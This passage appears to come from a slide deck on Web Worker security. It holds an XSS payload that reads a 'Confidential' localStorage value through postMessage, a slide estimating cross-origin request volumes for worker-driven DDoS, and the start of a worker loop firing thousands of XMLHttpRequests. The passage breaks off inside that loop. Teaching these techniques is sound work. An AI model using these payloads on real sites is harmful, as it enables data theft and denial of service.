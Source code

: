 // Outputting the data.

}

</pre>

--

# worker.js

<pre>

onmessage=function(evt){ 

// Function used to receive data from the main thread. 

var w=evt.data; 

//The received data is saved to evt.data.

postMessage(w); 

// It’s then posted back to the main thread.

}
</pre>

Notes:
worker.postMessage('&lt;img src=# onerror=alert(localStorage.getItem("Confidential")) />');

--

# Workers : DDoS

1. As per tests : 10k cross origin requests per minute per browser is possible via webworkers.
1. so 60 people == 100K requests per minute.

Notes:
Access-Control-Allow-Origin

--

# DoS

<pre>
onmessage = function(event){start()} 

function start() {

	var i=0;

	var st = (new Date).getTime(); 

	while(i < 5000)	{

		var cor = new XMLHttpRequest();

		i++;
